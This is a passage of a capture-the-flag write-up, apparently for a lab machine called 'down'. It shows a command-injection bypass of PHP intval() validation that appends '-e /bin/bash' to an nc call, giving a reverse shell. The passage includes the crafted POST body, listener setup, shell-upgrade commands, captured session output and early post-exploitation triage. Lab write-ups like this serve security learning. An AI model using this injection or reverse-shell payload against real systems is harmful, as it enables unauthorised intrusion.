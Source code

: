 `intval("4444 -e /bin/bash")` equals `4444` (passes validation), but the actual command becomes:
```
/usr/bin/nc -vz <OUR_IP> 4444 -e /bin/bash
```

Many nc builds support `-e` to exec a program upon connect. If _we_ are the remote host and have a listener on 443, the target will connect back and attach `/bin/bash` to our socket.

### Getting a shell
1. Start a listener on the attacker box:
```bash
penelope
```

2. Send the crafted request through Burp Repeater to bypass client-side form constraints. POST to `/index.php?expertmode=tcp` with URL-encoded body like:
```
ip=10.10.xx.xx&port=4444%20-e%20/bin/bash
```

3. When the HTTP request hangs, check the listener typing `id` should echo back under **www-data**.

Penelope auto upgrades the TTY for us.
If you are not using Penelope or other shell handler you can upgrade it by doing the following:
```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset
export TERM=xterm
```

We now have a stable **www-data** shell.

```
[####################] - 3m     30000/30000   178/s   http://10.129.217.203/javascript/jquery/                                                                                                                                         ❯ penelope
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 192.168.226.139 • 172.17.0.1 • 172.18.0.1 • 10.10.xx.xx
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from down~10.129.217.203-Linux-x86_64 😍️ Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/down~10.129.217.203-Linux-x86_64/2025_10_18-17_37_29-741.log 📜
─────────────────────────────────────────────────────────────────
www-data@down:/var/www/html$
```

#### User flag
```
www-data@down:/var/www/html$ cat user_aeT1xa.txt 
<REDACTED>
```
# Lateral Movement
## Local triage
- `/var/www/html/` contains only `index.php`, `style.css`, `logo.png` and the user flag.
- `/etc/apache2/sites-enabled/000-default.conf` shows a single vhost rooted at `/var/www/html`-no extra sites to pivot.
- `/home/` has one user: **aleks**. www-data can list inside but not read `~/.ssh`.
